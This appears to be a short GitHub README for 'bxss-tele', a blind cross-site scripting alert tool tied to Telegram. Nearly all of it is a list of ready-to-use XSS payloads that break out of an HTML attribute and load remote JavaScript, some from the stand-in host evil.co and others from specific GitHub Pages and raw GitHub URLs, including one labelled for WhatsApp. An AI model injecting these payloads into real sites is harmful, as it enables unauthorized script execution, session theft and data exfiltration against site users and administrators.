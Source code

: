 # bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>```

```"><script src=http://tucommenceapousser.github.io/bxss/bxss.js></script>```



```"><script src="https://raw.githubusercontent.com/tucommenceapousser/bxss/trkn/bxss.js">```

```"><script>$.getScript("//evil.co/bxt.js")</script>```

whatsapp

```"><script src=http://tucommenceapousser.github.io/bxss/wa.js></script>```

```"><script src=http://tucommenceapousser.github.io/bxss/wa.js></script>```

